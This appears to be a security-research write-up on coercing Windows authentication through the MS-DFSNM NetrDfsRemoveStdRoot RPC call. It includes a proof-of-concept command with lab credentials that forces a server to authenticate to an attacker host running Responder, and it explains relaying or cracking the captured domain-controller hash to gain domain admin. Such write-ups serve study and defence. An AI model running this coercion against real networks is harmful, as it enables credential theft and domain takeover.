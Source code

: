 # MS-DFSNM - Remote call to NetrDfsRemoveStdRoot (opnum 13)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: `\PIPE\netdfs`

 - **Function name**: [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\netdfs` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\netdfs`. This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsRemoveStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsRemoveStdRoot('192.168.2.51\x00', 'share\x00', 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsRemoveStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in] DWORD ApiFlags
);
```

 - **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the DFS root target to be removed.


 - **RootShare**: The pointer to a null-terminated Unicode DFS root target share name string. This is also the DFS namespace name. The share is not removed automatically when the method is successful; it MUST be removed explicitly, as needed.


 - **ApiFlags**: This parameter is reserved for future use and is ignored by the server.

## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979


 - Documentation of function `NetrDfsRemoveStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/e9da023d-554a-49bc-837a-69f22d59fd18


 - This call was pointed out by [@filip_dragovic](https://twitter.com/filip_dragovic/) on Jul 18, 2021: https://twitter.com/filip_dragovic/status/1538154721655103488

